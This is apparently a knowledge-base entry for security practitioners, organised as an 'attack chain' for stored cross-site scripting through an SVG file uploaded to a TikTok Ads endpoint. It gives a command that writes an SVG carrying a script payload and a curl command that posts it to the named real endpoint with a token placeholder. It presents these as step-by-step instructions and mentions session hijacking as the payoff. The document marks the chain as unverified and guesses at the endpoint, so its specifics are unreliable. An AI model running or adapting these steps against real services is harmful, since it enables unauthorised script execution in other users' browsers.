

---
tags:
  - xss
  - stored-xss
  - svg-upload
  - tiktok
type: attack_chain
tools: []
tactics:
  - '[[Execution]]'
  - '[[Initial Access]]'
commands:
  - '[[commands/create-malicious-svg]]'
  - '[[commands/upload-svg-file]]'
platforms:
  - Web
complexity: medium
procedures:
  - '[[procedures/Exploit-Stored-XSS-via-SVG-Upload]]'
step_count: 1
techniques:
  - '[[JavaScript]]'
description: >-
  Exploitation of a stored XSS vulnerability in TikTok Ads by uploading a
  malicious SVG file, leading to arbitrary JavaScript execution.
skill_level: intermediate
impact_level: high
id: 41b882b9-41c5-480c-a496-318559e64d28
created_at: '2025-12-13T23:56:20.162Z'
updated_at: '2025-12-13T23:56:20.162Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Execution]]'
  - '[[Initial Access]]'
mitre_techniques:
  - '[[JavaScript]]'
---
# Stored XSS via SVG Upload on TikTok Ads Endpoint

Multi-stage attack chain demonstrating a complete attack workflow.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None specific, but a text editor and web browser are needed.

### Target Environment

- Web platform
- TikTok Ads service
- Network access to the upload endpoint

### Initial Access Requirements

- Access to TikTok Ads platform for file upload
- No special credentials beyond standard user access

## Detailed Attack Procedures

### Step 1: Upload Malicious SVG File
procedure: [[procedures/Exploit-Stored-XSS-via-SVG-Upload]]

**Objective**: Upload an SVG file containing an embedded XSS payload to trigger stored XSS on the TikTok Ads endpoint.

**Instructions**: First, create the malicious SVG file using [[commands/create-malicious-svg]]:

```bash
echo '<svg xmlns="http://www.w3.org/2000/svg"><script>alert("XSS")</script></svg>' > malicious.svg
```

Then, upload the file to the TikTok Ads endpoint using [[commands/upload-svg-file]] (assuming a curl-based upload; adjust for actual API):

```bash
curl -X POST https://ads.tiktok.com/upload -F 'file=@malicious.svg' -H 'Authorization: Bearer YOUR_TOKEN'
```

**Expected Output**: Successful upload confirmation, followed by the payload being stored and rendered, executing the JavaScript.

**Success Indicators**:
- File upload succeeds without errors
- Viewing the ad triggers the XSS payload (e.g., alert box)

## Attack Chain Summary

### Key Achievements

1. Successful upload and storage of malicious SVG
2. Arbitrary JavaScript execution in user browsers
3. Potential for session hijacking or data theft

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Initial Access]]

*Last updated: 2023-10-01*
